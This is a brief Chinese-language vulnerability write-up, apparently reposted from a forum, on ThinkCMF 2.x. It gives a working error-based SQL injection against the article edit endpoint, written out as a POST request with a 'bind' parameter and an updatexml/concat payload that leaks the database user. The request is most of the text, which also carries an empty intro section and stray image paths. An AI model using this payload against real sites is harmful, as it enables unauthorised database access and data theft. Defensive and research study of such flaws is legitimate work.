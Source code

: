 # THINKCMFX_2.2.3漏洞合集

> 原文：[https://www.zhihuifly.com/t/topic/3139](https://www.zhihuifly.com/t/topic/3139)

# ThinkCMF 2.2.3 漏洞合集

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接sql注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```

![image](img/bd59f32d2703c257be816139a5591406.png)
